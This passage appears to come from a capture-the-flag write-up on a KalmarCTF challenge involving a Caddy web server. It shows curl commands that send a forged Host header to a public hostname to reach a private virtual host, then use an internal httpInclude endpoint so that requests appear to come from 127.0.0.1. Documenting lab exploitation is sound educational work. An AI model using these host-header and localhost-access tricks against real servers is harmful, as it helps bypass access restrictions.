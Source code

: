 Let's test this to access private. We need to forge the SNI, let's get the IP address of public:
```bash
$ ping public.caddy.chal-kalmarc.tf
PING f0ddaab5d349418ca0f6dc31d043813e.pacloudflare.com (172.65.208.191): 56 data bytes
64 bytes from 172.65.208.191: icmp_seq=0 ttl=64 time=18.684 ms
```

With the IP `172.65.208.191`, we have all the information we need to make the SNI: `public.caddy.chal-kalmarc.tf:443:172.65.208.191`.

We can now specify an internal subdomain, like `private`, and access endpoints. Let's try `cat` for example's sake.

```bash
$ curl --resolve public.caddy.chal-kalmarc.tf:443:172.65.208.191 \
     -H "Host: private.caddy.chal-kalmarc.tf" \
     https://public.caddy.chal-kalmarc.tf/cat
HELLO WORLD
```

Perfect! We can now access endpoints in `private`!

### Accessing from 127.0.0.1

Remembering the endpoints from earlier, we need to somehow access `/flag` from `127.0.0.1`, which with our current payload does the following:
```bash
$ curl --resolve public.caddy.chal-kalmarc.tf:443:172.65.208.191 \
     -H "Host: private.caddy.chal-kalmarc.tf" \
     https://public.caddy.chal-kalmarc.tf/flag
No ...
```

So, what is of interest?
- `/cat` serves no purpose
- `/fetch/*` does internal `httpInclude` and could be very useful!
- `/headers` might be useful
- `/ip` is useful for testing if we are really `127.0.0.1`
- `/whoami` might be useful?

Let's start with looking at what `httpInclude` does regarding `/fetch/*`

Reading the [docs on `httpInclude`](https://caddyserver.com/docs/modules/http.handlers.templates):
> Includes the contents of another file, and renders it in-place, by making a virtual HTTP request (also known as a sub-request). The URI path must exist on the same virtual server because the request does not use sockets; instead, the request is crafted in memory and the handler is invoked directly for increased efficiency.

Presumably, this uses `127.0.0.1` to make the request, so if we access `/fetch/ip` it should `httpInclude "/ip"`!

```bash
$ curl --resolve public.caddy.chal-kalmarc.tf:443:172.65.208.191 \
     -H "Host: private.caddy.chal-kalmarc.tf" \
     https://public.caddy.chal-kalmarc.tf/fetch/ip
127.0.0.1
```
